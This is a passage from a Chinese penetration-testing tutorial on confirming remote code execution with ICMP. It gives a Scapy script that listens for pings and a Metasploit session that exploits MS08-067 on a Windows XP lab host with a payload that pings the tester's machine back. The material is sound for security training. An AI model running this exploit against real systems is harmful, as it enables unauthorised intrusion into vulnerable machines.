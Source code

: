 ## 5.7 使用 ICMP 交互来验证漏洞

作为渗透测试者，任何给定漏洞的最佳结果是实现远程代码执行。 但是，在某些情况下，我们可能只想确定远程代码执行漏洞是否可利用，但不想实际遵循整个利用和后续利用过程。 一种方法是运行一个脚本，记录 ICMP 流量，然后在远程系统上执行 ping 命令。 该秘籍演示了如何编写自定义脚本，用于使用 ICMP 流量验证远程代码执行漏洞。

### 准备

要使用 ICMP 交互验证漏洞，你需要一个运行拥有远程代码执行漏洞的软件的系统。 此外，本节需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章中的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

在实际利用给定漏洞之前，我们必须部署一个脚本，来记录传入的 ICMP 流量。 这可以通过使用 Scapy 的简单 Python 脚本完成，如下所示：

```py
#!/usr/bin/python

import logging 
logging.getLogger("scapy.runtime").setLevel(logging.ERROR) 
from scapy.all import *

def rules(pkt):   
    try:      
        if (pkt[IP].dst=="172.16.36.224") and (pkt[ICMP]):
            print str(pkt[IP].src) + " is exploitable"  
    except:    
        pass

print "Listening for Incoming ICMP Traffic.  Use Ctrl+C to stop listening"
         
sniff(lfilter=rules,store=0) 
```

这个 Python 脚本监听所有传入的流量，并将发往扫描系统的任何 ICMP 流量的源标记为存在漏洞。 为了使用此脚本验证漏洞是否能够利用，我们需要执行代码，使远程系统`ping`我们的扫描系统。 为了演示这一点，我们可以使用 Metasploit 来利用远程代码执行漏洞。 但在这之前，我们需要启动我们的脚本，如下：

```
root@KaliLinux:~# ./listener.py 
Listening for Incoming ICMP Traffic.  Use Ctrl+C to stop listening 
```

接下来，我们需要利用导致远程代码执行的漏洞。 通过检查 Windows XP 框的 Nessus 扫描结果，我们可以看到系统容易受到 MS08-067 漏洞的攻击。 为了验证这一点，我们使用执行`ping`命令的载荷，使其`ping`我们的扫描系统来利用漏洞，如下所示：

```
msf > use exploit/windows/smb/ms08_067_netapi 
msf  exploit(ms08_067_netapi) > set PAYLOAD windows/exec 
PAYLOAD => windows/exec 
msf  exploit(ms08_067_netapi) > set RHOST 172.16.36.225 
RHOST => 172.16.36.225 
msf  exploit(ms08_067_netapi) > set CMD cmd /c ping 172.16.36.224 -n 1
CMD => cmd /c ping 172.16.36.224 -n 1 
msf  exploit(ms08_067_netapi) > exploit

[*] Automatically detecting the target... 
[*] Fingerprint: Windows XP - Service Pack 2 - lang:English 
[*] Selected Target: Windows XP SP2 English (AlwaysOn NX) 
[*] Attempting to trigger the vulnerability... 
```
